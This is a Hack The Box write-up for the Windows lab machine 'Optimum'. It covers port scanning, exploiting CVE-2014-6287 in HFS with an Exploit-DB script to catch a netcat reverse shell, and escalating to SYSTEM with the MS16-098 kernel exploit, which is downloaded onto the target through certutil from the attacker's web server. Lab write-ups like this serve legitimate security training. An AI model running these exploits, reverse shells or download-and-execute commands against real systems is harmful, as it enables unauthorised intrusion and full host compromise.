 # Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)


## Exploitation & Gaining Access

### Method 1: CVE-2014-6287 [1](https://www.exploit-db.com/exploits/39161) [2](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit#id-4a01)

```
searchsploit hfs 2.3

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)

```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/297d6042-a32c-4afc-87ac-a4502acc2fc2)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


#### Method 2: CVE-2014-6287 [1](https://www.exploit-db.com/exploits/34668)
Review the alternative solutions [1](https://benheater.com/hackthebox-optimum/#manual-exploit) [2](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#shell)

**Alternatively**, try powershell shell as **Invoke-PowerShellTcpOneLine.ps1** [1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) [2](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#shell)


### Method 3: Metasploit Solution [1](https://www.exploit-db.com/exploits/34926)
+ Review the alternative solution [1](https://medium.com/@joemcfarland/hack-the-box-optimum-writeup-36ccdffbeacd) [2](https://www.siberportal.org/red-team/penetration-testing/hack-the-box-optimum-cozumu/)


## Privilege Escalation

### Method 1: MS16-098 / Kernel [1](https://www.exploit-db.com/exploits/41020) [2](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) [3](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit#id-4f80) [4](https://benheater.com/hackthebox-optimum/#windows-exploit-suggester)

**Alternative** links [1](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) [2](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe)

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-08-mssb.xls --systeminfo systeminfo.txt

# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/32eb7f0c-5bb7-41b6-8d33-dfb5f11445a1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a43d3006-c5f2-4141-9446-154e5c8169ea)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c48e9398-e5c2-4853-9bd8-1b9d0596b083)

```
# On the kali attack vm:
searchsploit 41020

searchsploit -m 41020

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

sudo python3 -m http.server

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24:8000/41020.exe" 41020.exe

41020.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d51b7047-a7a0-4610-90a0-f28a43dbaa68)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cbb257e-323c-4c60-9ba7-7cd637287e51)

Get the shell as **nt authority\system**, and read the root flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4616bddf-9e5c-47fc-ad79-1f42c84449c8)


## Method 2: [CVE-2016-0099 / MS16-032](https://www.exploit-db.com/exploits/39719/)
+ Review the alternative solutionS [1](https://benheater.com/hackthebox-optimum/#kali) [2](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#ms16-032) [3](https://medium.com/@joemcfarland/hack-the-box-optimum-writeup-36ccdffbeacd)


# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/optimum-htb-manual-walkthrough-2023-tonee-e2a53fb59b1d
+ https://0xdf.gitlab.io/2021/03/17/htb-optimum.html
  + https://benheater.com/hackthebox-optimum
+ https://medium.com/@joemcfarland/hack-the-box-optimum-writeup-36ccdffbeacd
  + https://www.siberportal.org/red-team/penetration-testing/hack-the-box-optimum-cozumu/


## CVE Scripting
+ **CVE-2014-6287:**
  + https://www.exploit-db.com/exploits/39161
    + https://www.exploit-db.com/exploits/34926
  + https://www.exploit-db.com/exploits/34668
  + https://nvd.nist.gov/vuln/detail/CVE-2014-6287
+ **MS16-098 / Kernel:**
  + https://www.exploit-db.com/exploits/41020
    + https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
  + https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
    + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe
+ **CVE-2016-0099 / MS16-032:**
  + https://www.exploit-db.com/exploits/39719/
  + https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1


## Tools
+ /usr/share/windows-resources/binaries/
+ **Invoke-PowerShellTcpOneLine.ps1:** https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1
+ **Windows Exploit Suggester:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
+ **winPEAS:** https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
+ **Watson:** https://github.com/rasta-mouse/Watson
  + **Sherlock:** https://github.com/rasta-mouse/Sherlock
  + https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#enumeration


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://youtu.be/rNmF991BSTE?t=40
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
  + https://www.w3docs.com/snippets/python/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python.html
  + https://stackoverflow.com/questions/25445439/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1
+ **xlrd.biffh.XLRDError: Excel xlsx file; not supported:**
  + https://stackoverflow.com/questions/65254535/xlrd-biffh-xlrderror-excel-xlsx-file-not-supported
  + https://benheater.com/hackthebox-optimum/#install-required-python-module


## For More
- **How-to: Detecting 64 bit vs 32 bit:** https://ss64.com/nt/syntax-64bit.html
